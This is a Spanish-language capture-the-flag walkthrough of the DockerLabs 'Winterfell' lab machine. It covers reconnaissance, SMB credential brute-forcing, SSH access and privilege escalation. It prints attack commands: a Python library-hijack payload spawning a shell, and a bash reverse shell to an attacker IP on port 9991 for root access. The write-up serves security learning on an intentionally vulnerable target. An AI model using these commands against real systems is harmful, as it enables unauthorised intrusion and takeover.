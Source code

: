 
## Máquina Vulnerable "Winterfell" de DockerLabs


Para realizar esta máquina vulnerable, se utilizó la plataforma DockerLabs, la cual ofrece una variedad de laboratorios prácticos para aprender sobre seguridad en contenedores y Docker. La máquina "Winterfell" es una de las opciones disponibles en esta plataforma.


## Fase de Reconocimiento

Antes de realizar una tarea de Pentesting, se debe hacer un reconocimiento de los activos disponibles en la red. Para esto, primero verificamos que la máquina esté encendida y qué servicios tiene corriendo, simplemente haciendo un ping:

```bash
ping 172.17.0.2 -c 3
```
![image](/static/images/winterfell/ping_winterfell.png)

## Escaneo de Puertos:

Luego de verificar que la máquina se encuentra encendida, se procede a realizar un escaneo de puertos para identificar los servicios que están corriendo en la máquina. Para esto, se utiliza la herramienta Nmap:

```bash
nmap -p- --open  172.17.0.2 -vvv -oG allPorts
```
Guardamos el resultado en formato grepeable para poder utilizar la herramienta que copia solo los puertos abiertos y luego realizar un escaneo más profundo.

![image](/static/images/winterfell/puertosabiertos.png)

Ahora escaneamos más a fondo solo los puertos abiertos de la máquina:

```bash
nmap -p22,80,139,445 -sCVT -Pn 172.17.0.2 -vvv -oN Targeted 
```
![image](/static/images/winterfell/nmap.png)

Para poder obtener más información, se utiliza la herramienta enum4linux, la cual nos permite obtener información de los usuarios, grupos, políticas de contraseñas, recursos compartidos, etc.

```bash
enum4linux -a 172.17.0.2
```
![image](/static/images/winterfell/enum4linux.png)

Como se puede observar, obtuvimos distintos usuarios, con los cuales se puede aplicar fuerza bruta para intentar obtener las contraseñas. Al no poder encontrarlas por fuerza bruta, se procede a buscar en la web haciendo fuzzing con la herramienta dirb, para intentar encontrar algún archivo o directorio interesante.

```bash
dirb http://172.17.0.2
```
Se encuentra un directorio llamado "dragon", donde se pueden observar datos interesantes que podrían ser contraseñas.

![image](/static/images/winterfell/contraseñas.png)

También se encuentra un recurso compartido llamado "shared", al cual se puede intentar acceder para ver si contiene información sensible. Al tener los usuarios reconocidos, se utiliza la herramienta hydra para intentar obtener las contraseñas de los usuarios obtenidos anteriormente.

```bash
smbclient -L 172.17.0.2 -N 
```
![image](/static/images/winterfell/shared.png)



## Explotación de Vulnerabilidades

Ahora intentamos acceder a SMB con el usuario "jon" y con las posibles contraseñas guardadas como payload (las guardé como users.txt porque pensé que podían ser usuarios, pero en realidad son contraseñas).

```bash
netexec smb 172.17.0.2 -U jon -P ./users.txt
```
![image](/static/images/winterfell/smb.png)

Una vez dentro del recurso compartido, con el comando:

```bash
smbclient //172.17.0.2/shared -U jon
```

Encontramos un archivo llamado "protección del reino", el cual descargamos y revisamos su contenido.

![image](/static/images/winterfell/quetiene.png)

![image](/static/images/winterfell/dentro.png)

Como se puede ver, hay un mensaje cifrado, el cual claramente es base64. Procedemos a ver qué dice:

![image](/static/images/winterfell/hijolanister.png)

Ahora usamos esta contraseña para entrar por SSH con el usuario "jon".

```bash
ssh jon@172.17.0.2
```

## Escalado de Privilegios

Vemos que existe un mensaje oculto para Jon, el cual leemos y dice lo siguiente:

![image](/static/images/winterfell/mensajejon.png)

Al usar el comando "sudo -l" vemos que podemos ejecutar un script de Python para encriptar un mensaje cualquiera como jon o aria. En este script se utiliza la librería hashlib, donde uno puede crear un archivo con ese nombre y poner un código malicioso para obtener una shell como aria. 

```python
import os
os.system("/bin/bash")
```
Luego se ejecuta el script:

```bash
sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py
```
Y obtenemos la shell como aria, donde podemos ver la bandera de usuario.

![image](/static/images/winterfell/shellaria.png)

Ahora hacemos un "sudo -l" y vemos que podemos usar los siguientes comandos como daenerys:

![image](/static/images/winterfell/comandosdaenerys.png)


Buscando entre los comandos que podemos usar, vemos que daenerys tiene un mensaje para que aria lo pueda leer. 

![image](/static/images/winterfell/mensajedaenerys.png)

Una vez dentro del directorio de daenerys, usamos el comando "sudo -l" y vemos que se puede ejecutar una shell como root.

![image](/static/images/winterfell/shell.png)

Se edita el archivo .shell.sh con la IP de la máquina atacante y con el puerto 9991 nos ponemos en escucha. De esta forma podemos obtener una reverse shell como root.

El código que se utiliza es:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.100.119/9991 0>&1
```
De esta forma obtenemos acceso a la máquina víctima como root.

![image](/static/images/winterfell/ROOT.png)